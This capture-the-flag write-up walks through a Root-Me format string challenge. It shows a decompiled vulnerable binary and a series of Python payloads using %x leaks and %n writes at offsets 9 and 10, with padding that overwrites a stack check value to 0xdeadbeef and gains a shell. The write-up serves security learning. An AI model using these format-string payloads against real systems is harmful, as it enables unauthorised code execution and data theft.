
###S0lv3d by H4yicl3

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```

I use IDA to analysis the code .
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@6
  int v4; // edx@8
  int check; // [sp+28h] [bp-90h]@1
  int buf; // [sp+2Ch] [bp-8Ch]@3
  int stackcookie; // [sp+ACh] [bp-Ch]@1

  stackcookie = *MK_FP(__GS__, 20);
  check = 0x4030201;
  if ( argc <= 1 )
    exit(0);
  memset(&buf, 0, 0x80u);
  printf("check at 0x%x\n", &check); 		//not bug
  printf("argv[1] = [%s]\n", argv[1]);		//not bug
  snprintf((char *)&buf, 0x80u, argv[1]);
  if ( check != 0x4030201 && check != 0xDEADBEEF )
    puts("\nYou are on the right way !");
  printf("fmt=[%s]\n", &buf);			//not bug
  printf("check=0x%x\n", check);		//not bug 
  result = check;
  if ( check == 0xDEADBEEF )
  {
    puts("Yeah dude ! You win !");
    result = system("/bin/dash");
  }
  v4 = *MK_FP(__GS__, 20) ^ stackcookie;
  return result;
}
```
Try to understand the program you know!
The 4 line printf is safe !! but it give us more information like a vuln!
>The first we need to find the address of check
>Then we must modify it become 0xdeadbeef
>after we have controled /bin/dash
How can?
%n give us to midify the address we point in format string
%+offset+$+n give us modify specific position you know

try to read it maybe
chrome-extension://oemmndcbldboiebfnladdacbdfmadadm/https://www.exploit-db.com/docs/28476.pdf

Maybe next !!
the script i try 
```python
A="A"*4
padding ="%x_"*50
print A+padding
```
then i run this
```
python ch14.py >input
./ch14 `cat input`
check at 0xffffd648
argv[1] = [AAAA%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_]
fmt=[AAAAf7fd8b48_1_0_1_ffffd6e4_0_0_4030201_41414141_64663766_38346238_305f315f_665f315f_64666666_5f346536_5f305f30_30333034_5f3130]
check=0x4030201
```
>the first line you see the address of check (0xffffd648) you know !
>the third line you see the string"AAAA" i import at first then we see in fmt have the value 0x41414141 . it is the address we can insert !
>we can change "AAAA" become address of check ! you know ?
>and offset 0x41414141 is 9 ! we can count
>so we can use %+offset+$n to modified the check value !! maybe!

the script i change after is
```python
address="\x48\xd6\xff\xff"
padding ="%9$hn"
print address+padding
```
the result we get
```
./ch14 `cat input`
check at 0xffffd648
argv[1] = [H���%9$hn]

You are on the right way !
fmt=[H���]
check=0x4030004
```
we get "You are on the right way!"
So we just modified 0x40302010 become 0x4030004
that mean we just changed the 2 byte after
We want to change 2 byte before we need change 0xffffd648 become 0xffffd650
try to understand that with $n used to modify 2 byte so we need to add a address and modify 2byte next !! You know ?
>but we need to modify 0x4030004 be come 0x403beef before
0xbeef=48879 but we have 0004 so we need 48879-4 = 48875
```python
address="\x48\xd6\xff\xff"
padding ="%48875d%9$hn"  # add with % numberd (%48875d)
print address+padding
```
the result
```
./ch14 `cat input`
check at 0xffffd648
argv[1] = [H���%48875d%9$n]

You are on the right way !
fmt=[H���                                                                                                                           ]
check=0xbeef
```
we get 0xbeef 
so we add the 2 byte before by next python script
```python
address="\x38\xd6\xff\xff"
address2="\x3a\xd6\xff\xff"
padding ="%48875d%9$n"
padding +="%10$n"
print address + address2 + padding
```
>notice: i change address 0xffffd648 become 0xffffd638 .
because the result is
```
./ch14 `cat input`
check at 0xffffd638
argv[1] = [8���:���%48875d%9$n%10$n]

You are on the right way !
fmt=[]
check=0xbef3bef3
```
now the check is at 0xffffd638 !!
and we change check become 0xbef3bef3 ? 0xbeef ?
>ok we try get 48875-4 be cause we already add 1 address with 4 byte
>4 byte next is 0xdead !! 0xdead -0xbeef = 8126
the python script now look like
```python
address="\x38\xd6\xff\xff"
address2="\x3a\xd6\xff\xff"
padding ="%48871d%9$n"
padding +="%8126d%10$n"
print address + address2 + padding
```
>48875-4 =48871
>%8126d added
the result is 
```
./ch14 `cat input`
check at 0xffffd638
argv[1] = [8���:���%48871d%9$n%8126d%10$n]
fmt=[]
check=0xdeadbeef
Yeah dude ! You win !
$ 
```

Now we can  cat .passwd!! GLHF!

